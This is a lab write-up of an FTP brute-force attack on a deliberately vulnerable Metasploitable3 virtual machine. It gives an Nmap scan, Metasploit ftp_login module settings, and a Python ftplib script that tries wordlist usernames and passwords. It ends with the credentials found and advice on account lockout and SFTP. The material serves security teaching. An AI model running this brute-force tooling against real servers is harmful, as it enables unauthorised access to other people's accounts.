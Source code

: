 **FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    ![Figure 1: Attacker Network Configuration](image/Picture1.png)

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.16`
    ![Figure 2: Victim Machine Overview](image/Picture2.png)

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.16
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.

![Figure 3: Nmap Scan Results](image/Picture3.png)

### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.16
   set USER_FILE /usr/share/wordlists/ftp_users.txt
   set PASS_FILE /usr/share/wordlists/ftp_passwords.txt
   set THREADS 10
   ```
4. Execute the attack:

   ```bash
   run
   ```

![Figure 4: Metasploit FTP Brute-Force Configuration](image/Picture4.png)

### 3.2 Custom Brute-Force Script

A Python script using `ftplib` was also used to automate login attempts:

```python
import ftplib

def brute_ftp(host, users, passwords):
    for user in open(users):
        for pwd in open(passwords):
            try:
                ftp = ftplib.FTP(host)
                ftp.login(user.strip(), pwd.strip())
                print(f"[+] Success: {user.strip()}:{pwd.strip()}")
                ftp.quit()
                return
            except Exception:
                pass

if __name__ == '__main__':
    brute_ftp('10.0.2.16', 'ftp_users.txt', 'ftp_passwords.txt')
```

![Figure 5: FTP Brute-Force Script Example](image/Picture5.png)

![Figure 6: Script Execution Output](image/b175ee04-b93f-44c5-804e-a121170c0c67.jpg)

---

## 4. Results and Findings

* **Successful Credentials Discovered:**
  `ftpuser:ftp123`

* **Access Achieved:** FTP shell access to the victim machine under `ftpuser` account.

---

## 5. Recommendations

1. **Implement Account Lockout:** Limit failed login attempts before locking an account.
2. **Use Strong Passwords:** Enforce complexity requirements and periodic changes.
3. **Enable Secure FTP:** Transition to FTPS or SFTP to protect credentials.
4. **Audit Logs:** Monitor authentication logs for repeated failures.

---

*Report generated on May 3, 2025.*
